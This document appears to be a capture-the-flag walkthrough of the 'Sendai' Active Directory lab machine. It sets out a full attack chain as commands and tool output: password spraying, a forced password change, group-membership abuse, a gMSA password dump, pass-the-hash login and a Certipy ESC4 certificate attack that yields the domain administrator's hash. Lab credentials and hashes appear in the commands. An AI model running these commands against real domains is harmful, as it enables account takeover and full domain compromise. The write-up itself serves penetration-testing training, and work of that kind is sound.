










## INFO

```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```

Guest Level Access in the smb share . Lets Explore !






We found potential user accounts and a note which states that ``All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.`` Which is a good sign for a penetration-tester. 


## INITIAL ACCESS

Checkin' with common credentials !
```
└─# crackmapexec smb 10.10.127.65 -u user_lst -p '' --continue-on-success

[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE 
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Susan.Harper:Sendai2023 STATUS_PASSWORD_MUST_CHANGE

[-] sendai.vl\Lisa.Williams:Summer2023 STATUS_PASSWORD_MUST_CHANGE
```

Changing the password ;

```
─# impacket-changepasswd sendai.vl/Lisa.Williams:Summer2023@10.10.127.65
```




As we found valid domain user . Now it time to enumerate shares , ADCS , run bloodhound.

Now , we got access to the config share , where there is .sqlconfig file with credentials of the database. But mssql isnt accessible via external network . Gotta wait till we breach the machine !





```
└─# bloodhound-python --username lisa.williams --password 'p@ssw0rd' --nameserver 10.10.127.65 --domain sendai.vl --domain-controller DC.sendai.vl --dns-tcp --collectionmethod all --zip
```




Being member of the Support Group we have `Generic All` privilege !

```
Full control of a group allows you to directly modify group membership of the group.
```

Why this attack ? Members of ADMSVC group can `ReadGMSAPassword` od the MGTSVC$ account which can PSRemote to the machine.





Lets attack :
--> Add lisa.williams to the ADMSVC group .

```
└─# net rpc group addmem "ADMSVC" "lisa.williams" -U "sendai.vl"/"lisa.williams"%"p@ssw0rd" -S "dc.sendai.vl"
```

--> Read GMSA Password .

```
└─# python gMSADumper.py -u lisa.williams -p 'p@ssw0rd' -d sendai.vl
```



Cool ! We got mgtsvc$ account hash.

```
└─# evil-winrm -i sendai.vl -u mgtsvc$ -H 582bdf7c5328ca2bf3de975a6ed4b7c7
```


# ESC4 Attack

Running  [PrivescCheck.ps1](https://github.com/itm4n/PrivescCheck) We found creds of clifford.davey.



clifford.davey  ::  RFmoB2WplgE_3p 

This guy is CA-OPERATOR !




```
└─# certipy-ad find -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -enabled -dc-ip 10.10.127.65 -stdout -vulnerable
```





Lets attack the vulnerability and gain access as DA. [ESC4_Attack](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc4)


ESC4 is when a user has write privileges over a certificate template. This can for instance be abused to overwrite the configuration of the certificate template to make the template vulnerable to ESC1.

```
└─# certipy-ad template -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```


The certificate template is now vulnerable to the ESC1 technique.

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` or `-dns` parameter.

```
└─# certipy-ad req -username 'clifford.davey@sendai.vl' -password 'RFmoB2WplgE_3p' -template 'SendaiComputer' -ca 'sendai-DC-CA' -upn 'administrator@sendai.vl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

```
└─# certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.127.65
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
```

Cool ! The DC has been pwned !!


As we have mssql credentials , and service running . We can exploit it using the silver tickets.

